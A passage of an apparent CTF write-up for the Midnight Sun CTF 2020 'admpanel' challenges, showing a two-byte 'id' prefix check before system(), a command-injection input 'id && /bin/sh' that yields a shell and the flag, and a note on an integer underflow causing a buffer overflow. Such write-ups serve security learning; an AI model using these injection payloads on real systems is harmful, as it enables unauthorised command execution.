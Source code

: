 ```c
  if ( !strncmp(&s, "id", 2uLL) )
    return system(&s);
```

> it just compare the first 2 bytes of `s`

### Solution


So, we can input `id && /bin/sh` to getshell

``` shell
$ nc admpanel-01.play.midnightsunctf.se 31337
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id && /bin/sh
uid=999(ctf) gid=999(ctf) groups=999(ctf)
ls -al
total 32
drwxr-xr-x 1 root ctf   4096 Apr  3 05:41 .
drwxr-xr-x 1 root root  4096 Apr  3 05:41 ..
-rwxr-x--- 1 root ctf  14408 Apr  3 13:09 chall
-r--r----- 1 root ctf     41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf     71 Apr  2 21:20 redir.sh
cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
```


## Admpanel2 (85pt)

### Description

> Oops, they patched it again!

### Attachment

[admpanel2](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/admpanel2/admpanel2)

### Analysis

In func `sub_40121A`, `maxlen` is an unsigned integer, if the return value of `snprintf` is nearly `0x100`, after 3 times `maxlen -= n` executed , maxlen will be a great integer. Buffer overflow will happen after input a long string.
